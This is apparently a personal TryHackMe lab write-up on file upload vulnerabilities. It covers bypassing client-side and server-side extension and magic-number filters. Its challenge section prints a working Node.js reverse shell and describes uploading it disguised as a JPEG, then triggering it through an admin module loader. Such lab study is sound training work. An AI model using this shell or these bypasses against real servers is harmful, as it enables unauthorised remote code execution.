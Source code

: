 # TryHackMe: Complete Beginner

* **author**:: Nathan Acks  
* **date**:: 2021-10-09

## Upload Vulnerabilities

### Bypassing Client-Side Filtering

How to bypass:

* Just turn off JavaScript.
* Use Burp Suite to modify the incoming page to remove the filter (often needs to be done before the page is loaded).
* Use Burp Suite to modify the file upload *after* it has passed the filters.
* Use curl to send the file directly to the upload endpoint (make a good upload first to see what that looks like).

To modify the page in Burp Suite, first get the server response by right-clicking on the outgoing intercept and choosing Do intercept > Response to this request. When we forward the request, the response will then be intercepted, and we can modify it as desired.

NOTE: Burp Suite does not intercept JavaScript files; to do this, we'll need to modify the proxy's default file extension filter under "Options".

Modifying the file upload itself is much easier, as this can be done using Burp Suite's normal interception flow. Note that Burp Suite *cannot* attach new files, so we'll need to modify the upload file (extension, etc.) to get past the filters, then undo our changes in the outgoing request.

Sending a file via curl is basically the same procedure as modify the file upload request, except that we let a good file go through so we can see the upload endpoint and then communicate with that directly.

```bash
curl -X POST -F "submit=$SUBMIT_VALUE" \
             -F "${FILE_INPUT NAME}=@$PATH_TO_FILE" $URL
```

### Bypassing Server-Side Filtering: File Extensions

Basically, bypassing server-side filters is going to involve a lot of trial and error until we figure out what the filter is (and how to work around it).

Note that sometimes developers just check to see if a valid extension exists within a file, so things like reverse-shell.jpg.php will work. Happy days if this is you.

Common file extensions for PHP:

* .php
* .phar
* .phtml
* .pht
* .phps (though I've always seen this as *source* code)
* .php# (where `#` is the running PHP major version)

The trick, of course, is not only that you need to upload your file, but that you need to use an extension that the server will execute!

* [PHP (Wikipedia)](https://en.wikipedia.org/wiki/PHP)

### Bypassing Server-Side Filtering: Magic Numbers

To recap: This is (generally) the first 4 bytes of a file. Apparently, text files don't have magic number, so one trick you can do is just insert four ASCII characters in the front of your file and then use a hex editor to change them to an appropriate magic number.

[Wikipedia's list of magic numbers.](https://en.wikipedia.org/wiki/List_of_file_signatures)

The `hexeditor` app is a quick-and-easy hex editor, and `file` can give you a sense of whether you've effectively spoofed a file's magic number.

Note that this can be a lot trickier if you're not dealing with PHP, since many languages don't have PHP's concept of interpreted vs. non-interpreted bits.

### Example Methodology

The `Server` and `X-Powered-By` HTTP headers, if present, can be handy for figuring out what language we're dealing with.

Since many servers turn off directory indexing and randomize file names, its helpful if we can figure out some place that displays or links to the file we just uploaded. If there's no option here, gobuster's -x switch allows a search for specific file extensions (but then the search is *within* a particular directory).

There's probably server-side filtering, so bypass everything client-side and then look for an error message. Using curl to hit an endpoint directly is probably not as useful as Burp Suite here… Tricks:

* Use completely valid and invalid extensions to check for the presence of white/blacklists.
* Try changing the magic number of a known good file to see if magic number filtering is in place.

### Challenge

Potentially interesting directories in /content, /assets, /modules, /admin.

The provided wordlist is combinations of three capital letters. The backgrounds files also follow this pattern (ABH.jpg, LKQ.jpg, SAD.jpg, UAD.jpg). All backgrounds are located in the /content directory (and the form says that uploaded files will be added to the slides), so I'll bet that this is where uploaded files go. I did one good upload (and then a scan with gobuster) to verify this.

The server's response when loading a page indicates that it is running Express. So we'll need a Node.js compatible reverse shell. I used the first option from the Reverse Shell Cheat Sheet (note that the port and IP address in line 6 need to be customized).

```javascript
(function(){
	var net = require("net"),
	    cp  = require("child_process"),
	    sh = cp.spawn("/bin/sh", []);
	var client = new net.Socket();
	client.connect(1234, "127.0.0.1", function(){
		client.pipe(sh.stdin);
		sh.stdout.pipe(client);
		sh.stderr.pipe(client);
	});
	return /a/; // Prevents Node.js from crashing
})();
```

(NOTE: I actually tried the more compact shell listed after this on the Reverse Shell Cheat Sheet, but it didn't work.)

The /assets/js/upload.js script handles uploads. It requires files less than 400k in size with the first three bytes matching the JPG magic number (these are the only three bytes that are consistent between all JPG magic numbers) and an extension of .jpg or .jpeg.

Initially I tried to add the relevant magic bytes to the front of my JS file with the idea that I would edit them out of the request once they made it through the client-side filtering. However, when I viewed the request I discovered that content was base64 encoded, so I just used `base64 -w 0` to encode the shell *without* the leading bytes and replaced the uploaded file entirely.

(NOTE: Initially I changed the MIME type to text/plain, but the server rejected this. Leaving it as image/jpeg worked though, no matter what the file extension. Note that the MIME type on the base64-encoded line didn't seem to matter.)

Re-scanning the /content directory with gobuster for .js files revealed nothing, but rescanning for .jpg revealed that the server was renaming all files with the .jpg extension. Fortunately, the uploaded shell was so much smaller than either the pre-existing images or my uploaded test that it was easy to pick out

THIS IS WHERE I GOT STUCK. I finally wound up looking at the challenge hints, most of which it turned out I'd already figured out. But Hint 9 suggested looking at the /admin page, which I hadn't bothered to try to visit. LET THAT BE A LESSON TO ME - POKE AROUND MORE!

The admin page indicates that it loads modules, so this is how we're going to get the Express app to execute the reverse shell (I'd been wondering how I was going to get it loaded into memory up until this point). Loading ../content/XKM.jpg (which is where my shell wound up) in this page resulted popped the shell, after which grabbing the flag was easy.

* [Express](http://expressjs.com/)
* [Reverse Shell Cheat Sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
* [TryHackMe: File Upload Vulnerabilities - Hints](https://muirlandoracle.co.uk/2020/06/30/file-upload-vulnerabilities-hints/)
